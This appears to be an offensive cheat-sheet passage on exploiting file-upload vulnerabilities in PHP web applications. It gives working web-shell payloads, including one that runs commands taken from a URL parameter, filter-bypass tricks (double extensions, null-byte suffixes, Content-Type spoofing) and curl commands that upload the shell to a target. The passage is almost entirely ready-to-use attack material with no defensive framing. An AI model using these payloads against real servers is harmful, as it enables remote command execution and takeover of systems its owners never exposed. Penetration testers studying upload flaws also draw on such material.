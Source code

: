 - Payload:
  - Test if the code was executed
    ```php
    <?php echo "UPLOAD_OK"; ?>
    ```
  - If executed,
    ```php
    <?php echo shell_exec('whoami'); ?>
    <?php system($_GET['cmd']);?>
    ```
- Bypass techniques:
  - Change `shell.php` to `shell.php.jpg` or `shell.php5`
  - Content-Type spoofing: `curl -F "file=@shell.php;type=image/jpeg"`
    > Change "file" if needed
  - NULL BYTE and Weird suffixes: `shell.php;.jpg`, `shell.php%20`, `shell.php%00.jpg`
- curl example:
  ```bash
  curl -i -X POST -F "file=@shell.php;type=application/x-php" https://target/upload
  curl -i -X POST -F "file=@shell.php;type=image/jpeg" https://target/upload
  # Change "file" if needed.
  ```
